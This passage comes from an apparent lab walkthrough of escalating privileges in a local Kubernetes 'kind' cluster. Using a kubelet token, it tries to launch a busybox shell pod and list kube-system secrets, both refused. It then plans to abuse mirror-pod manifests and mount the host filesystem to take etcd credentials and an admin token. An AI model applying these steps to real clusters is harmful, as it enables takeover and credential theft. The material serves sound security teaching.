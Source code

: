 2. Let's see if we can run a pod directly with this token. We try a simple `busybox` shell:
   `kubectl run -i --tty busybox --image=busybox --restart=Never -- sh`
   ```shell
   root@nonroot-priv:/# kubectl run -i --tty busybox --image=busybox --restart=Never -- sh
   Error from server (Forbidden): pods "busybox" is forbidden: pod does not have "kubernetes.io/config.mirror" annotation, node "kind-worker" can only create mirror pods
   ```
   This command fails because the kubelet token still doesn't have all the permissions needed to start via the API server.
   The mirror pods line is interesting though, since it would allow us to launch any pod we want directly in `kube-system`
   by putting a YAML file into `/etc/kubernetes/manifests` on the node. This would then give us many attack vectors against
   the other control plane pods in the `kube-system` namespace. We'll leave that alone for now though.

3. Given that we can see pods in the `kube-system` namespace, our next target are to find credentials that can get us admin level
   access to the control plane.  Let's try listing secrets in the `kube-system` namespace: `kubectl get secrets -n kube-system`:
   ```shell
   root@nonroot-priv:~# kubectl get secrets -n kube-system
   Error from server (Forbidden): secrets is forbidden: User "system:node:kind-worker" cannot list resource "secrets" in API group "" in the namespace "kube-system": No Object name found
   ```
   That didn't work but there might be another attack vector to get at those secrets: *etcd*.

4. Because we've escaped PSA, and we now know which nodes we have, we're going to launch a pod to the node
   hosting etcd, and in the Pod configuration we're going to mount the host filesystem to give us the credentials to connect to etcd. 

   From the pod list above, we can see that the etcd server appears to be running as `etcd-kind-control-plane`.  Etcd
   is the state persistence for the cluster, we need to get into that and exfiltrate an admin token if possible.

   First, we need to figure out which node the etcd server is running on as well and where it's credentials are stored.
   This will be available in its pod description: `kubectl describe pod etcd-kind-control-plane -n kube-system`
   There's a lot of valuable information in the response so we'll look at it in pieces:
   ```shell
   root@nonroot-priv:/# kubectl describe pod etcd-kind-control-plane -n kube-system
   Name:                 etcd-kind-control-plane
   Namespace:            kube-system
   Priority:             2000001000
   Priority Class Name:  system-node-critical
   Node:                 kind-control-plane/172.19.0.3
   ```
   From this we see that it is running on the `kind-control-plane` node. In our kind cluster, we only have 2 nodes, so
   we probably could have guessed that In a real-world scenario this might not be so obvious as etcd often is deployed
   on its own host(s).
